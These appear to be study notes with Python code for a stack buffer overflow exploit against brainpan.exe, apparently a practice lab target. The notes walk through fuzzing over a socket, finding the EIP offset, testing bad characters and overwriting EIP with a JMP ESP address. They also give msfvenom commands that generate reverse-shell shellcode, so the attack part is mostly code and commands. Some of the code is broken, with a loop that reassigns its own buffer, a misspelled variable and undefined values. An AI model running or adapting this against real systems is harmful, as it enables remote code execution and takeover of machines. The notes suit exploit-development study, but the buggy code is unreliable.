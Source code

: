 # Buff_Over_flo

    //****buffer overflow steps -- use immunity debugger
    //1. code to test how long a input strings will make the app crashed. in 100 byte level
    //2. exactly the longth to EIP (4 bytes), the offset
    //3. check how long strings the ESP can accept, we need almost 400-500 bytes.
    //4. send the paylaod, offset + EIP(the address of ESP) + PAD ("\x90"*16) + shellcode(write to ESP)

//code for setp1
    buffer =["A"]
    counter = 100

    while len(buffer) <=30:
        buffer.append("A"*counter)
        counter += 100

    for i in buffer:
        buffer = "A"*524 + "\xf3\x12\x17\x31"+ pad + shell
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        print(len(bufer), "Sent! ")
        s.close()
    //here the length is the value of offset
//step 2 codes
    //buffer > offset ,but < offset +100
    //we tried to sent the length of buffer to get exactly offset, to make B to write on EIP addr
    buffer ="A"*x + "B"*4
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.56.117',9999))
    s.send(buffer)
    data = s.recv(1024)
    s.close()

//step3
    //change buffer = "A"*offset + "B"*4 + "C"*500 (500bytes is enough for revershell )
    //use same code as step2
    // send the bad char strings to test badchar which is not accept by the target software, ohter than \x00
    //the payload is "\x01 -- \xff"
//step4
    buffer = "A"*offset + (the address of ESP) + PAD + shellcode
    //for ESP, we need to map the opcode(operation code) of JMP ESP, that is \xff\xe4.
        //!mona modules (mona.py) -- to check the sofatware is protected or not,  if it is false, we can find the addr os EIP, by find \xff\xe4
        //!mona find -s "\xff\xe4" -m brainpan.exe, we get a addr 311712f3, but the addr in the ram is "\xf3\x12\x17\x31"  //!mona jmp -r esp -cpb "\x00"
    //  reverse shellcode of bytes format,
        //msfvenom -p windows/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use to test on win host)
        //msfvenom -p linux/x86/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use on kali)
